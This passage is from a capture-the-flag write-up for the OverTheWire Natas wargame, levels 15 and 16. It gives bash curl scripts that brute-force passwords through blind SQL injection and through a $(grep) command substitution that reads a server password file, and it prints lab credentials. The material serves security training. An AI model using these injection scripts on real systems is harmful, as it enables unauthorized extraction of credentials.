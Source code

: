 Let's just make sure our user is `natas16`, we input `natas16` and are told `This user exists`.

now we're going to inject further conditions into our query, we'll basically be guessing the password one letter at a time by abusing the `like binary` sql keyword and the `%` wildcard. The following script does this with `curl`.

```bash
#!/usr/bin/env bash

# run until the same password appears twice

password='';
echo "starting brute_force attack";

while true; do
for f in {a..z} {A..Z} {0..9}; do
    curl -s -u natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J 'http://natas15.natas.labs.overthewire.org/index.php?debug&username=natas16"%20and%20password%20like%20binary%20%22'$password$f'%' | grep exists
    if [ $? -eq 0 ]
    then
       password=$password$f;
       break
    fi
done
echo $password;
done
```

Once the script spits out the same password twice, we know we have the complete password.

```
WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
```

### [natas16](http://natas16.natas.labs.overthewire.org/)

natas16:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

We're back to the poorly secured `grep`s, this one now puts our key in quotes and filters for quotes and apostrophes before calling grep on it.

We'll use a similar approach to the previous issue, we can inject a `grep` on the password file, we can't view the output of this grep, but if the grep succeeds then the grep on the dictionary will not return any results.

So we append a word we know to be in our shell injection to the start of our query, then test grepping the password file until we don't get any results.

here's a script that automates it in the same manner as the previous level

```bash
#!/usr/bin/env bash

# run until the same password appears twice

password='';
echo "starting brute_force attack";

while true; do
for f in {a..z} {A..Z} {0..9}; do
    curl -s -u natas16:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh 'http://natas16.natas.labs.overthewire.org/?needle=test%24(grep+^'$password$f'+%2Fetc%2Fnatas_webpass%2Fnatas17)&submit=Search' | grep smartest > /dev/null
    if [ $? -ne 0 ]
    then
       password=$password$f;
       break
    fi
```